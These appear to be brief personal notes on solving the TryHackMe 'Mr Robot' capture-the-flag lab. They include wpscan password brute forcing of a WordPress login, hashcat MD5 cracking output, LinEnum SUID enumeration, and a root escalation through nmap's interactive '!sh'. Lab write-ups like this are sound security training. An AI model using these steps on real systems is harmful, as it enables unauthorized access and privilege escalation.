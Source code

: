 nmap -A

nmap -A

dirb

user elliot , help from writeup

> wpscan --url http://10.10.136.28/wp-login.php --passwords ~/Desktop/THM/mrrobot/fsocity.dic -U elliot



> hashcat

```
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Mar 24 15:33:23 2020 (0 secs)
Time.Estimated...: Tue Mar 24 15:33:23 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   180.2 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 39936/14344385 (0.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: promo2007 -> loserface1
```



> ./LinEnum.sh

(linenumres.txt)[/linenum.txt] :

```
[-] SUID files:
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
*-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap*
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
```

old version of nmap which doesn't have --script 
so: 
> nmap --interactive

```
nmap> !sh
!sh
# whoami
whoami
root
```
> cd /root
> cat key-3-of-3.txt
